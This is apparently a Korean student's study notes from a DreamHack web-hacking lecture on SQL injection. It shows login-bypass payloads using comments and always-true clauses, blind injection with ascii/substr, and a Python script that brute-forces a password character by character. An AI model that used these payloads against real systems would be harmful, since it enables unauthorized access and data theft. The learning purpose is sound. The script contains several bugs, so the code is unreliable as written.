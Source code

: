 ```yaml
---
layout: single
title:  "ServerSide : SQL Injection"
categories: DreamHack
tag: [DreamHack, WebHacking,SQL,SQL_Injection]
toc: true
author_profile: false
---
```


# ServerSide : SQL Injection

[SQL Injection](https://dreamhack.io/lecture/courses/191)
 
DMBS에서 관리하는 데이터베이스에는 민감한 정보가 포함될 수 있다. 공격자는 데이터베이스 파일 탈취 SQL Injection 공격 등으로 해당 정보를 확보하고 악용할 수 있다. 

오늘은 DBMS에서 사용하는 쿼리를 임의로 조작해 데이터베이스의 정보를 획득하는 SQL Injection에대해 배운다.

그 전에 Injection은 주입이라는 의미를 가진 단어로 인젝션 공격은 이용자의 입력값이 처리과정에서 구조나 문법적인 데이터로 해석되어 발생하는 취약점이다.

## SQL Injection

SQL 은 DBMS에 데이터를 질의하는 언어이다. 웹 서비스에는 이용자의 입력을 SQL 구문에 포함해 요펑하는 경우가 있다(ex: 로그인, 게시글). 

아래 코드는 로그인 할 때 애플리케이션이 DBMS에 질의하는 쿼리이다.

```sql
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```

쿼리문을 살펴보면 이용자가 입력한 "dreamhack"과 "password"문자열을 SQL 구문에 포함이 된다. 이렇게 문자열을 삽입하는 행위를 SQL Injection이라고 한다. SQL Injection 이 발생하면 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.


아래 쿼리문은 SQL Injection으로 조작한 쿼리문이다.

```sql
SELECT * FROM accounts WHERE user_id='admin' 
```

쿼리문을 보면 user_pw의 조건문이 사라진걸 알 수 있다.  조작한 쿼리문을 통해 질의하면 DBMS는 ID 가 admin인 계정의 비밀번호를 비교하지않고 해당 계정의 정보를 들고 온다.

주석이나 항상 참이되는 값을 이용해서 쿼리문을 조작 할 수 있다.

----
uid 와 upw를 입력받는 모듈이 있고, 코드가 아래와 같을 때

```sql
Select uid from user_table where uid='' and upw=''
```

문자열을 구별하기 위해 ' 문자를 사용하고 있기 때문에 uid 입력값에 admin'을 입력하면 뒤에 문장들은

```sql
Select uid from user_table where uid='admin'' and upw=''
```
처럼 바뀐다.

뒤에 주석 #을 추가해 뒷 내용을 주석화 할 수 있다.

혹은 admin' or ' 을 입력해 뒷내용이 항상 참으로 만들 수 있다.

### Blind SQL Injection

Blind SQL Injectio이라는 다른 공격기법으로 데이터베이스의 내용을 알 수 있다.

해당 공격 기법은 스무고개 게임과 비슷한 방법으로 질문을 해서 답변을 얻어 알아내는 방법이다.

ascii 값과 substr 함수로 Blind SQL Injection 을 할 수 있다.

----
substr 함수
```python
substr(string , position, length)
substr('ABCD',1,1)='A'
substr('ABCD',2,2)='BC'
```

----

공격 코드

```sql
#  114='r',115='s'

SELECT * FROM user_table WHERE uid = 'adim' and ascii(substr(upw,1,1)) = 114 --' and upw=' '
#False


```

Blind SQL Injection 공격은 하나하나 값을 비교해야되기 때문에 비교적 오랜 시간이 걸린다는 단점이 있다. 이를 해결하기 위해 Python 코드로 자동화해 얻을 수 있다.

```python
import requests
import string

url = 'http://example.com/login'

params = {
    'uid':''
    'upw':''
}

tc = string.ascii_letters + string.digits + string.punctuation

query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''

pasword = ''

for idx in range(0,20):
    for ch in tc:
        params['uid'] = query.format(idx=idx,val=ord(ch)).strip("\n")

        c = requests.get(url,params=params)

        print(c.requests.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break

print(f"Password is {password}")
```

